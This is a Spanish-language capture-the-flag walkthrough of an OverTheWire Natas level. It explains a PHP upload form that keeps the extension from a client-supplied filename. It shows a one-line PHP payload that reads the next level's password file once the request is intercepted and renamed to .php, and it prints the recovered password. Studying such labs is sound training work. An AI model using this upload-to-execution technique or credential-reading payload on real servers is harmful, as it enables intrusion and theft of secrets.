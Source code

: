 Si inspeccionamos el HTML, vemos que nos pide seleccionar un archivo para
enviar. Analizamos el codigo fuente de la página.

En primer lugar tenemos una función que genera una cadena aleatoria de 10
caracteres alfanúmericos.

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
```

Luego, una función que genera un path aleatoria en un directorio y con una
extensión dada.

```php
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```

Luego, se define una función que crea un path aleatorio en un directorio dado, con la misma extensión que un archivo dado.

```php
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
```

Finalmente, ante un POST, se obtiene el archivo y se guarda dentro de la carpeta
'upload', con la extensión dada en `filename`.

```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


    if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
```

Si subimos un archivo de php, el servidor lo renderizará cuando tratemos de
accederlo...

```bash
<?php

readfile("/etc/natas_webpass/natas13");
```

Al subirlo, también debemos interceptarlo para modificar el `filename`. Debe
terminar en `.php`.

Al abrir el archivo, obtendremos la contraseña:

```txt
lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

